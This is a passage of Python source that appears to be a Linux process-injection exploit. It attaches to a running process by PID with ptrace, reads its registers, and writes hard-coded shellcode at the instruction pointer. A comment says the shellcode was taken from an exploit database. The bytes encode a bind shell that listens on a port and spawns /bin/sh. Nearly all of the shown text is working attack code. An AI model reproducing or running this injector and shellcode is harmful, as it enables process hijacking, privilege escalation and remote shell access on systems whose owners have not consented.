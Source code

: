 ```python
    	("rbx", ctypes.c_ulonglong),
    	("r11", ctypes.c_ulonglong),
    	("r10", ctypes.c_ulonglong),
    	("r9", ctypes.c_ulonglong),
    	("r8", ctypes.c_ulonglong),
    	("rax", ctypes.c_ulonglong),
    	("rcx", ctypes.c_ulonglong),
    	("rdx", ctypes.c_ulonglong),
    	("rsi", ctypes.c_ulonglong),
    	("rdi", ctypes.c_ulonglong),
    	("orig_rax", ctypes.c_ulonglong),
    	("rip", ctypes.c_ulonglong),
    	("cs", ctypes.c_ulonglong),
    	("eflags", ctypes.c_ulonglong),
    	("rsp", ctypes.c_ulonglong),
    	("ss", ctypes.c_ulonglong),
    	("fs_base", ctypes.c_ulonglong),
    	("gs_base", ctypes.c_ulonglong),
    	("ds", ctypes.c_ulonglong),
    	("es", ctypes.c_ulonglong),
    	("fs", ctypes.c_ulonglong),
    	("gs", ctypes.c_ulonglong),
	]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64
#time.sleep(1)
# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()
#time.sleep(1)
# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode=b"\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"
#print (type(shellcode))
# Inject the shellcode into the running process byte by byte.
for i in range(0,len(shellcode),4):
 
  # Convert the byte to little endian.
#  print (shellcode[i:4+i].hex())
  shellcode_byte_int=int(shellcode[i:4+i].hex(),16)
#  print (str(shellcode_byte_int).encode('utf-8'))
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip(b'\x00').hex()
#  print (shellcode_byte_little_endian)
  shellcode_byte=int(shellcode_byte_little_endian,16)
 
  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

```